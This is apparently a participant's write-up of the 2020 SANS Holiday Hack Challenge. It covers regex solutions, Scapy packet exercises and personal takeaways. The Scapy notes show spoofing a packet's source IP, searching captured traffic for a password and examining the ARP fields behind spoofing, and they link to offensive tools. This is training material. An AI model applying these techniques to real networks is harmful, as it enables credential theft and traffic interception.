

The time one is harder…

`^(([0-1][0-9])|([0-2][0-9]))[:]([0-9]{2})[:]([0-9]{1,2})$`

The MAC address - 
`^([A-Fa-f0-9]{2})[:]([A-Fa-f0-9]{2})[:]([A-Fa-f0-9]{2})[:]([A-Fa-f0-9]{2})[:]([A-Fa-f0-9]{2})[:]([A-Fa-f0-9]{2})$`

And the date too, that's probably going to be the hardest

I went down a rabbit hole of trying to get the date to match all possible formats, then I realized that if you click on the field it pops up with more detailed instructions. This is what I needed!

> Create a regular expression that only matches one of the three following day, month, and four digit year formats:
> 
> 10/01/1978
01.10.1987
14-12-1991
> 
> However, the following values would be invalid formats:
05/25/89
12-32-1989
01.1.1989
1/1/1
> 
> Use anchors or boundary markers to avoid matching other surrounding strings.

`(^(([0-1][0-9])|([0-9]))[\/](([0-3][0-9])|([0-9]))[\/](([0-9]{4})$))|(^(([0-3][0-9])|([0-9]))[.-]([0-1][0-9])[.-](([0-9]{4})$))`

That was interesting! I've seen regular expressions before but never really dove into them. Learned a lot!

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

### Scapy Prepper 
(Alabaster Snowball)

This could be a helpful resource https://scapy.net/
And https://github.com/secdev/scapy/
This is actually pretty cool!

This is the link in the hint:
https://scapy.readthedocs.io/en/latest/api/scapy.sendrecv.html





https://scapy.readthedocs.io/en/latest/api/scapy.utils.html

https://wiki.sans.blue/Tools/pdfs/ScapyCheatSheet_v0.2.pdf
This could be useful ^^

>>> upkt = UDP_PACKETS[0]
>>> upkt.show()

>>> upkt[IP].src = "127.0.0.1"

That's pretty cool, to totally change a packet…

>>> TCP_PACKETS[4].show()

Looking at each packet to see what kind of payload it is… looking for the one that sends back alabaster's password

Looks like 6 is the one

So is PASS the password?
No… it wants the whole string

>>> pkt = ICMP_PACKETS[1]
>>> checksum = pkt[ICMP].chksum

https://0xbharath.github.io/art-of-packet-crafting-with-scapy/scapy/creating_packets/index.html



Here's the request:

And the response:

https://www.cloudshark.org/captures/e4d6ea732135

Sample request:

And response:

Looks like op is 1 for request and 2 for reply
Hwsrc is sender MAC address (the same as Ethernet src)
Hwdst is target MAC address (the requestor's MAC address)

So these are what need fixing

---

## Narrative 
_(incomplete - I'll add more as I progress!)_

KringleCon back at the castle, set the stage…
But it's under construction like my GeoCities page.

Feel I need a passport exploring on this platform -
Got half floors with back doors provided that you hack more!

Heading toward the light, unexpected what you see next:
An alternate reality, the vision that it reflects.

Mental buffer's overflowing like a fast food drive-thru trash can.
Who and why did someone else impersonate the big man?

...

**Stanzas 5, 6, and 7 are still a mystery to me!**

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

---

## Personal Takeaways

### Favorites

These are my favorite challenges and experiences of this challenge:

#### Linux Primer

I love the linux command line. It's fun. Not to mention if my kids walk through the room and see me in linux they're always like, "Mom's hacking again!" which of course makes me laugh, and also makes me feel like a pretty cool mom.

#### The lights and the vending machine in the UnPreparedness Room

I enjoy cryptography, even though I haven't done much of it yet. It's probably my math background, I have taken a lot of math classes and really enjoy math. And the problem solving involved in these was just fun!

#### Soundtrack

Have I mentioned I loved the soundtrack for this challenge? My favorite song though was Ninjula's [You're a maen one, Mr Grinch](https://holidayhackchallenge.com/2020/album/Ninjula%20-%20You're%20a%20maen%20one,%20Mr%20Grinch.mp3). So much energy!

### Cool tools from this challenge

#### Bucket Finder

https://digi.ninja/projects/bucket_finder.php

#### Cyberchef

https://gchq.github.io/CyberChef/

#### Atomic Red Team

[atomic red team](https://github.com/redcanaryco/atomic-red-team)

#### HID / Proxmark

I'm fascinated by the idea that through a little device you can manipulate id cards. The Proxmark3 seems like an awesome tool.
[This HID/ProxCard Cheat Sheet]](https://gist.github.com/joswr1ght/efdb669d2f3feb018a22650ddc01f5f2) could come in handy some day.

#### Scapy

Really any specific way to change a packet is new and fascinating to me! I knew it was possible but to see it in action was pretty cool.

### Things in this challenge that were mostly or completely new to me

#### S3 Buckets

I don't know a whole lot about how Amazon Web Services works. I've just started learning about EC2 instances, but haven't gotten very far yet. I love learning about how everything works together in the cloud and look forward to learning more about S3 storage buckets and ways to secure them.

#### Tmux

The idea of multiple terminal sessions being accessible in one window kind of blows my mind, not gonna lie.

#### Regex

Regular Expressions is a concept I've come across before but never in this much detail. I actually was working on a script the other day where I ended up using regex and it was so helpful! I still am a baby when it comes to using it, but I learned a lot through the process in this challenge!

#### Redis

I still feel unsure of what exactly redis is used for, but at least now I've had a little exposure to build on next time I come across it!

#### Lookup Tables 

I have to say I'm proud that my natural way to fix the vending machine was basically a lookup table. I'll have to look into methods for lookup tables in more detail next time I come across a polyalphabetic cipher. I'm sure there was a way to automate this, or at least I'd like to think python could have saved a lot of time here, I just don't know enough about it yet to make it happen!

### Things I learned about hacks and challenges during this challenge

#### Taking Notes

I took notes right from the start, but as I progressed through the challenges I realized my note taking was definitely lacking. I tweaked my notes along the way, but still as I wrote this up I found there was so much missing from my notes and had to revisit the challenge and walk through it quite a bit a second time to get the details I missed. In the end, here are the things I learned about taking notes:

+ Take all the screenshots. I took quite a few screenshots along the way, but I wished I had taken more... or differently. What I would change for next time? Take a screenshot of the full badge at the beginning. Take a screenshot of each room before interacting with it. 

+ Track the dialogue better. I started just making notes of the gist of what the elves said. Then I realized their specific words were probably more important, so I started typing their comments word for word, but quickly decided there had to be a better way. After looking through a little more closely, I realized their dialogue was in the chat window! Wish I had paid attention to that from the start. Copy and paste is so much easier than copy typing!

+ Take notes in a way that will support a write-up. This write-up took *forever* because I didn't do a great job of typing up all my thoughts along the way. Most of my notes were in the form of screenshot or short phrases, which was good but I definitely could have done better.

#### Stop and Smell the Roses

I have a feeling I missed a lot. I was so focused on the specific objectives and didn't notice as much as I could have about the environment, the narrative, storyline, etc. I heard people mention a few Easter Eggs and man I want to see what I was missing!

I guess what I'm trying to say is I learned that challenges like this are more than just about the objectives. They can be so much fun too!

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_
